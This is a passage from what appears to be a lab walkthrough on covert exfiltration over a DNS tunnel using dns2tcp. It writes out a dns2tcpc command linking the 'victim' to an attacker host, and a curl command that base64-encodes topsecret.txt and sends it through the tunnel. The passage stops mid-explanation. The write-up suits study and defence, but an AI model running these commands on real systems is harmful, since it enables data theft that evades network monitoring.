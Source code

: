 
#### 3. Back on the Victim: Connect and Exfiltrate

#### a. Establishing a tunnel from victim to attacker

Now, from the victim, the attacker uses the DNS tunnel to reach that HTTP server, but not _directly_. Instead, it sets up a **local proxy port** using `dns2tcpc`:

```
dns2tcpc -z berrysafe.com -r exfil -l 9001 10.0.1.4
```

This command:
- Uses `-z` to specify the domain (`berrysafe.com`)

- `-r exfil`: Requests the resource `exfil`, which was defined by the attacker to route to port `9000`.

- Opens a local proxy port (`-l 9001`) on the victim 

- Connects to the attacker at IP `10.0.1.4`


_This screenshot captures the victim establishing a DNS tunnel to the attacker's IP using dns2tcpc:_

**What happens now**:
- The victim opens a connection to `127.0.0.1:9001` (its own localhost).

- This traffic is **captured by the dns2tcpc client**, encapsulated inside DNS packets, and sent to `berrysafe.com`, which resolves to Kali (because of the `/etc/hosts` trick).

- On Kali, `dns2tcpd` receives these DNS requests and **forwards them to the configured service (the HTTP server on port 9000)**.

  - **Port 9001** is used locally on the victim to interact with the tunnel.

  - **Port 9000** is where Kali’s HTTP server is actually listening.

  - When the victim sends requests to `127.0.0.1:9001`, `dns2tcpc` encapsulates the traffic over DNS and forwards it to the attacker (Kali's VM), where it's routed to the HTTP server on port `9000`. This local-to-remote port bridging is what allows covert exfiltration of data without direct HTTP communication.

 
#### b. Sending the file contents through the tunnel

```
curl "http://127.0.0.1:9001/?$(base64 -w 0 topsecret.txt)"
```

This command sends the contents of `topsecret.txt`, encoded in base64, through the DNS tunnel using an HTTP GET request to the local proxy created by `dns2tcpc`. The HTTP request is forwarded via the DNS tunnel to the attacker’s web server on Kali.

#### Breakdown of each part:

#### 1\. `base64 -w 0 topsecret.txt`
 This part **outputs the content of `topsecret.txt`** in base64 format.
